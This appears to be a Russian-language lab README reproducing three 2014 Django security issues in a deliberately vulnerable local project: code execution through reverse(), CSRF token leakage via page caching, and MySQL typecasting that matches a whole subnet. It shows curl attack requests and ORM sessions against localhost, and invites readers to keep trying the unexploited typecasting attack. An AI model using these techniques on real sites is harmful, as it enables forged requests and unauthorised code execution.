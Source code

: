## Source URL

https://www.djangoproject.com/weblog/2014/apr/21/security/

```
$ pip install Django==1.6.2 MySQL-python==1.2.5
$ django-admin.py startproject django-vulnerable
```

## Issue: Unexpected code execution using reverse() ##


Обычный HTTP запрос


	$ curl localhost:8000

	       /\     /\
	      {  `---'  }
	      {  O   O  }  
	    ~~|~   V   ~|~~  
	       \  \|/  /   
	        `-----'__
	        /     \  `^\_
	       {       }\ |\_\_   W
	       |  \_/  |/ /  \_\_( )
	        \__/  /(_E     \__/
	          (  /
	           MM


HTTP запрос злоумышленника


	$ curl localhost:8000?next=pwn.own

	                     .ed"""" """$$$$be.
	                   -"           ^""**$$$e.
	                 ."                   '$$$c
	                /                      "4$$b
	               d  3                      $$$$
	               $  *                   .$$$$$$
	              .$  ^c           $$$$$e$$$$$$$$.
	              d$L  4.         4$$$$$$$$$$$$$$b
	              $$$$b ^ceeeee.  4$$ECL.F*$$$$$$$
	  e$""=.      $$$$P d$$$$F $ $$$$$$$$$- $$$$$$
	 z$$b. ^c     3$$$F "$$$$b   $"$$$$$$$  $$$$*"      .=""$c
	4$$$$L        $$P"  "$$b   .$ $$$$$...e$$        .=  e$$$.
	^*$$$$$c  %..   *c    ..    $$ 3$$$$$$$$$$eF     zP  d$$$$$
	  "**$$$ec   "   %ce""    $$$  $$$$$$$$$$*    .r" =$$$$P""
	        "*$b.  "c  *$e.    *** d$$$$$"L$$    .d"  e$$***"
	          ^*$$c ^$c $$$      4J$$$$$% $$$ .e*".eeP"
	             "$$$$$$"'$=e....$*$$**$cz$$" "..d$*"
	               "*$$$  *=%4.$ L L$ P3$$$F $$$P"
	                  "$   "%*ebJLzb$e$$$$$b $P"
	                    %..      4$$$$$$$$$$ "
	                     $$$e   z$$$$$$$$$$%
	                      "*$c  "$$$$$$$P"
	                       ."""*$$$$$$$$bc
	                    .-"    .$***$$$"""*e.
	                 .-"    .e$"     "*$c  ^*b.
	          .=*""""    .e$*"          "*bc  "*$e..
	        .$"        .z*"               ^*$e.   "*****e.
	        $$ee$c   .d"                     "*$.        3.
	        ^*$E")$..$"                         *   .ee==d%
	           $.d$$$*                           *  J$$$e*
	            """""                              "$$$"


В этом случае происходим импорт модуля `pwn` с выполнением `import side effect`


## Issue: Caching of anonymous pages could reveal CSRF token ##

### Анатомия уязвимости

	$ curl -I localhost:8000/login/
	HTTP/1.0 200 OK
	Date: Sun, 04 May 2014 14:58:59 GMT
	Server: WSGIServer/0.1 Python/2.7.6
	Expires: Sun, 04 May 2014 15:07:25 GMT
	Vary: Cookie
	Last-Modified: Sun, 04 May 2014 14:57:25 GMT
	Cache-Control: max-age=600
	X-Frame-Options: SAMEORIGIN
	Content-Type: text/html; charset=utf-8
	Set-Cookie:  csrftoken=EbLMgjQ9g62hzmeaEovXkhhqwIQmKst1; expires=Sun, 03-May-2015 14:57:24 GMT; Max-Age=31449600; Path=/

### Пример

0. Пример кода с view

1. Представим ситуацию. Жертва - постоянный анонимный пользователь сайта.

  ```
  $ curl localhost:8000/boom/
  7Z7YC0t8KhN0wU0wN97I5LN6zrhLFFNc
  ```

2. У злоумышленника есть сайт и механизм(бот), который ходит на сайт жертвы и получает куки анонимов из кэша

3. (прил) пользователь заходит на сайт злоумышленника и там выполняется AJAX запрос аналогичный

  ```
  $ curl --request POST \
	--cookie "csrftoken=7Z7YC0t8KhN0wU0wN97I5LN6zrhLFFNc" \
	--data "csrfmiddlewaretoken=7Z7YC0t8KhN0wU0wN97I5LN6zrhLFFNc" \
	localhost:8000/boom/
  BOOM!
  ```

## Issue: MySQL typecasting

Попытаемся разобраться о чем идет речь


	>>> query_obj = CVE_2014_0474_Blacklist.objects.filter(ip=192)
	>>> print query_obj.query
	SELECT `blacklist`.`id`, `blacklist`.`ip` FROM `blacklist` WHERE `blacklist`.`ip` = 192 

	mysql> SELECT `blacklist`.`id`, `blacklist`.`ip` FROM `blacklist` WHERE `blacklist`.`ip` = 192.168;
	+----+---------------+
	| id | ip            |
	+----+---------------+
	|  2 | 192.168.0.1   |
	|  3 | 192.168.83.17 |
	+----+---------------+
	2 rows in set, 3 warnings (0,01 sec)


Варианты использования:

У злоумышленника появился доступ к очереди(например RabbitMQ) celery.

Celery сериализует аргументы функций. Можно сериализовать число туда, где приложение ожидает строку.

Потенциальная атака: попытаемся удалить всю подсетку из фаервола:


	>>> query_obj.delete()
	Traceback (most recent call last):
	  File "<console>", line 1, in <module>
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/query.py", line 465, in delete
	    collector.delete()
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/deletion.py", line 260, in delete
	    qs._raw_delete(using=self.using)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/query.py", line 476, in _raw_delete
	    sql.DeleteQuery(self.model).delete_qs(self, using)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/sql/subqueries.py", line 85, in delete_qs
	    self.get_compiler(using).execute_sql(None)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/sql/compiler.py", line 782, in execute_sql
	    cursor.execute(sql, params)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/backends/util.py", line 69, in execute
	    return super(CursorDebugWrapper, self).execute(sql, params)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/backends/util.py", line 53, in execute
	    return self.cursor.execute(sql, params)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/backends/mysql/base.py", line 124, in execute
	    return self.cursor.execute(query, args)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/MySQLdb/cursors.py", line 207, in execute
	    if not self._defer_warnings: self._warning_check()
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/MySQLdb/cursors.py", line 117, in _warning_check
	    warn(w[-1], self.Warning, 3)
	Warning: Truncated incorrect DOUBLE value: '127.0.0.1                                    '


От успешной эксплуатации уязвимости спасает то, что MySQL выдает предупреждения, а Django воспринимает их как ошибки и предотвращает выполнение запроса.


	mysql> SHOW WARNINGS;
	+---------+------+-----------------------------------------------------------------------------------+
	| Level   | Code | Message                                                                           |
	+---------+------+-----------------------------------------------------------------------------------+
	| Warning | 1292 | Truncated incorrect DOUBLE value: '127.0.0.1                                    ' |
	| Warning | 1292 | Truncated incorrect DOUBLE value: '192.168.0.1                                  ' |
	| Warning | 1292 | Truncated incorrect DOUBLE value: '192.168.83.17                                ' |
	+---------+------+-----------------------------------------------------------------------------------+
	3 rows in set (0,00 sec)


На этом я решил остановиться. Эксплуатировать уязвимость не получилось.

Заинтересованным можно попробовать продолжить разные комбинации MySQL и Python коннектора для успешной выполнения атаки.
